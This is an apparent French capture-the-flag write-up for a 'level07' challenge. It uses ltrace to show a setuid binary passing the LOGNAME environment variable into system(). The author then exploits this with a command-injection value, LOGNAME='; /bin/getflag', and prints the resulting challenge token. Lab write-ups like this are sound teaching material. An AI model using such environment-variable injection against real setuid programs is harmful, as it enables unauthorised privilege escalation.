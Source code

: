 # LEVEL 07

**LOGIN: level07**

**PASSWORD: level07**

 ----
 
 ```
  ls -l ; echo ; file level07 
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07

level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```

```
./level07 
level07
```
 
 On sait qu'on a une variable d'environnement `LOGNAME=level07`
 
Pour test : 
```
LOGNAME=toto ./level07
toto
```

``` 
ltrace ./level07 
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                             = 2007
geteuid()                                             = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)   = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)   = 0
getenv("LOGNAME")                                     = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff62, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
```

La chaine `/bin/echo level07` a une len de 18, comme le retour de asprintf.

Pour test :
``` 
LOGNAME=toto ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                             = 2007
geteuid()                                             = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)   = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)   = 0
getenv("LOGNAME")                                     = "toto"
asprintf(0xbffff744, 0x8048688, 0xbffff916, 0xb7e5ee55, 0xb7fed280) = 15
system("/bin/echo toto "toto
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                = 0
+++ exited (status 0) +++
```

`system` est donc appelé avec le retour asprintf, on peut donc injecter une commande dans le subshell

```
LOGNAME="; /bin/getflag" ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

**TOKEN: fiumuikeil55xe9cu4dood66h**




